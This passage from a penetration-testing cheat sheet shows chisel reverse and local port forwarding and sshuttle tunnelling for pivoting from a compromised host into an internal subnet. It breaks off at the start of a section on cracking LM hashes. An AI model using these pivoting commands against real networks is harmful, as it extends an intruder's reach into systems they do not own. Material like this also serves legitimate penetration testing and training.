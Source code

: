 - On the compromised host, connect back to the chisel listener (attacker's box) at `172.16.0.20:1337` and create a link between the target box at `172.16.0.10:22` and the local port `2222` of the attacker's machine.
	- i.e make the host `172.16.0.10:22` available through `127.0.0.1:2222` on the attacker's box.

```python
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

#### Local Port Forwarding with Chisel

- Start a listener **on the compromised host** using port `1337`:

```python
./chisel server -p 1337 &
```

- From the attacker's box, connect to the compromised host at `172.16.0.5:8000` running a chisel server and  make the target host at `172.16.0.10:22` accessible through the local port `2222` of the attacker's machine.

```python
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```

### Sshuttle
---
Does not perform port forwarding. It uses an SSH connection to create a tunnelled proxy that acts like a new NIC. This allows to route traffic without the use of proxychains (or an equivalent). Works like a vpn.

Requirements for **sshuttle** to work:
- Works only on Linux targets
- SSH access to the target must be available
- Python needs to be installed on the target

**Sshuttle examples:**

**NOTE:** The `-x` flag is used to exclude a host from the forwarded subnet to avoid failures. If the target's IP for SSH access does not belong to the target subnet you are trying to access, then the `-x <IP>` flag is not required.

- Connect to the compromised host at `172.16.0.5` from the attacker's box to access the `172.16.0.0/24` subnet.

```python
sshuttle -r victim@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
```

- Same as above with the additional use of a private ssh key.

```python
sshuttle -r victim@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24 -x 172.16.0.5
```

## Hash Cracking
---
### LM
---
- Using **Hashcat:**
